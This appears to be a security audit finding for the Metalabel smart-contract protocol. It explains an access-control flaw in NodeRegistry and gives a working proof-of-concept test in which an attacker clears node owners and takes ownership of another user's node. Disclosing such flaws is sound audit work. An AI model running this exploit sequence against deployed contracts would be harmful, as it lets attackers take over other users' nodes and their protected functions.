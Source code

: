 https://github.com/metalabel/metalabel-contracts-v1/blob/effe2e89996d6809c5ec6c6da10c663246f91fc1/contracts/NodeRegistry.sol#L222-L246

See the second check (`else if`). If a node has no owner and at the same time its group node has no owner as well, any attacker can pass this check if they have to registered account in the `AccountRegistry` (`accounts.resolveId(msg.sender)` is equal to 0).

In combination with c-1-attacker-can-directly-remove-owner-of-any-node which proved that any malicious user can remove the owner of any node, the only condition to take ownership of any node is that it has a group node.

After the exploit, the attacker will have access to all the critical functionality in the Metalabel smart contracts protocol, which has some kind of node access control / authorization mechanism.

#### **Proof Of Concept**

Place the following test case in [test/NodeRegistry.spec.ts](https://github.com/metalabel/metalabel-contracts-v1/blob/effe2e89996d6809c5ec6c6da10c663246f91fc1/test/NodeRegistry.spec.ts)

```js
const [user, attacker, attacker2] = await ethers.getSigners()

// User creates an account.
await accountRegistry.createAccount(user.address, '')
const userAccountId = await accountRegistry.resolveId(user.address)

// User creates a node and sets their Metalabel account as the owner of this node.
await createNode({ owner: userAccountId.toNumber() })
const userNode1Id = await nodeRegistry.totalNodeCount()

// User creates a second node and sets their Metalabel account as the owner of this node and
// passes the userNode1Id as a group node.
await createNode({
  owner: userAccountId.toNumber(),
  groupNode: userNode1Id.toNumber(),
})
const userNode2Id = await nodeRegistry.totalNodeCount()

// Assert setup.
expect(await nodeRegistry.ownerOf(userNode1Id)).to.eq(userAccountId)
expect(await nodeRegistry.ownerOf(userNode2Id)).to.eq(userAccountId)
expect(await nodeRegistry.groupNodeOf(userNode2Id)).to.eq(userNode1Id)

// Attacker that has no Metalabel account calls nodeRegistry.completeNodeOwnerTransfer for both user's nodes.
expect(await accountRegistry.resolveId(attacker.address)).to.eq(0)
await nodeRegistry.connect(attacker).completeNodeOwnerTransfer(userNode1Id)
await nodeRegistry.connect(attacker).completeNodeOwnerTransfer(userNode2Id)

// Attacker deletes the owner of the user's node.
expect(await nodeRegistry.ownerOf(userNode1Id)).to.eq(0)
expect(await nodeRegistry.ownerOf(userNode2Id)).to.eq(0)

// Attacker uses a second ethereum address that we owns and registers a Metalabel account with it.
await accountRegistry.createAccount(attacker2.address, '')
const attacker2AccountId = await accountRegistry.resolveId(attacker2.address)

// Attacker calls nodeRegistry.startNodeOwnerTransfer and steals the ownership of the second user's node.
await expect(
  nodeRegistry
    .connect(attacker)
    .startNodeOwnerTransfer(userNode2Id, attacker2AccountId),
).to.not.be.reverted

// Exploit is successful.
```